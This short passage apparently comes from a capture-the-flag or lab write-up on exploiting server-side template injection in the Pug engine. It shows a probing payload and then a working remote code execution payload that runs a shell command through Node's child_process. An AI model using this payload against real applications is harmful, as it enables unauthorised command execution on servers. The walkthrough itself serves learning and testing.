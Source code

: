 We can see this:

![Pasted image 20250505175625.png](../../../IMAGES/Pasted%20image%2020250505175625.png)

Let's submit a test payload:

```
#{;}
```

![Pasted image 20250505175642.png](../../../IMAGES/Pasted%20image%2020250505175642.png)

We get these errors, it means, we are dealing with `pug`, we can achieve `rce` on here by using:

```node
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}
```

![Pasted image 20250505175742.png](../../../IMAGES/Pasted%20image%2020250505175742.png)

